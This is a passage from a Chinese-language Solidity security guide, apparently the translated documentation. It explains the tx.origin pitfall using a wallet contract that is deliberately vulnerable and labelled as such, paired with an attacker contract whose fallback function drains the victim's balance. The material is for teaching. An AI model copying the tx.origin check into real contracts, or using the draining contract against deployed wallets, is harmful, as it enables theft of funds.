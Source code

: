 一定要记得检查`send`的返回值。

### tx.origin

一个类似 CSRF 的相关问题：

一个检查 tx.origin 的钱包
```
pragma solidity ^0.4.11;

// THIS CONTRACT CONTAINS A BUG - DO NOT USE
contract TxUserWallet {
    address owner;

    function TxUserWallet() public {
        owner = msg.sender;
    }

    function transferTo(address dest, uint amount) public {
        require(tx.origin == owner);
        dest.transfer(amount);
    }
}

```

一个攻击者的钱包

```
pragma solidity ^0.4.11;

interface TxUserWallet {
    function transferTo(address dest, uint amount) public;
}

contract TxAttackWallet {
    address owner;

    function TxAttackWallet() public {
        owner = msg.sender;
    }

    function() public {
        TxUserWallet(msg.sender).transferTo(owner, msg.sender.balance);
    }
}
```

只要被攻击者往攻击者钱包转账，攻击者钱包就会发一个新的事务，并借用 tx.origin 来盗取被攻击者的全部余额。每个地址的全部余额都是公开可查的。

## 通用模式

### 从合约中取钱
